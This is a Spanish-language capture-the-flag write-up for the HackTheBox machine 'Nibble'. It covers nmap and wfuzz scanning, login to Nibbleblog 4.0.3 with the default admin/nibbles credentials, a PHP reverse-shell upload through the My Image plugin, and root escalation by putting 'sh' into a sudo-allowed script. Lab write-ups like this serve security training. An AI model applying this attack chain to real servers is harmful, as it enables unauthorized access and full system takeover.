





HackTheBox
Easy
Linux
Nibbleblog
File Upload
Sudo
Nibble
Nibbleblog 4.0.3 con credenciales por defecto; file upload RCE via plugin; escalada con sudo sobre script propio.
cat4clysm
Herramientas utilizadas
nmap
wfuzz
netcat
Scanning
root@kali:~$
nmap -sC -sV -Pn -n -p22,80 10.10.10.75 -oN targeted
Enumeracion Web - Nibbleblog
root@kali:~$
whatweb 10.10.10.75
root@kali:~$
wfuzz -c --hc 403,404 -t 100 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.75/nibbleblog/FUZZ

Explotacion - Nibbleblog File Upload RCE
Credenciales: admin/nibbles (adivinadas, Hydra se banea).
Activamos el plugin My Image en /admin.php?controller=plugins&action=install&plugin=my_image
Subimos una PHP reverse shell. Accedemos a:
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.phpcat /home/nibbler/user.txtEscalada de Privilegios - Sudo

root@kali:~$
mkdir personal/stuff -p
cd personal/stuff
echo "sh" >> monitor.sh
chmod +x monitor.sh
sudo ./monitor.sh
cat /root/root.txtLecciones aprendidas
- Nibbleblog 4.0.3 tiene un File Upload sin restricciones que permite subir PHP shells.
- Las credenciales por defecto (admin/nibbles) son la primera opcion antes del brute force.
- sudo con NOPASSWD en scripts propios del usuario es un vector comun de escalada.